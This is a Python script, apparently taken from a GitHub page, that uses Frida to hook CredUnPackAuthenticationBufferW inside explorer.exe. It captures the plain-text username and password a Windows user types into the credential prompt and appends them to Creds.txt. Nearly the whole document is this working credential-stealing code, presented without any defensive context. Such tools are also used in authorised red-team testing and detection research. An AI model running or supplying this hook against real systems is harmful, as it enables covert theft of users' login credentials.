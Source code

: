 ```
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread
import sys

def on_message_credui(message, data):
  # Executes when the user enters the credentials inside the Graphical runas prompt.
  # Then, open a txt file and appends the data.
  print(message)
  if message['type'] == "send":
    with open("Creds.txt", "a") as f:
      f.write(message["payload"] + '\n')


def CredUI():
  # Explorer is always running so no while loop is needed.

  # Attaching to the explorer process
  session = frida.attach("explorer.exe")
  
  # Executing the following javascript
  # We Listen to the CredUnPackAuthenticationBufferW func from Credui.dll to catch the user and pass in plain text
  script = session.create_script("""
  
  var username;
  var password;
  var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")
  
  Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
  
      username = args[3];
      password = args[7];
    },
    onLeave: function (result)
    {
       
      var user = username.readUtf16String()
      var pass = password.readUtf16String()
  
      if (user && pass)
      {
        send("\\n+ Intercepted CredUI Credentials\\n" + user + ":" + pass)
      }
    }
  });
  
  """)
  # If we found the user and pass then execute "on_message_credui" function
  script.on('message', on_message_credui)
  script.load()
  sys.stdin.read()

if __name__ == "__main__":
  CredUI()
```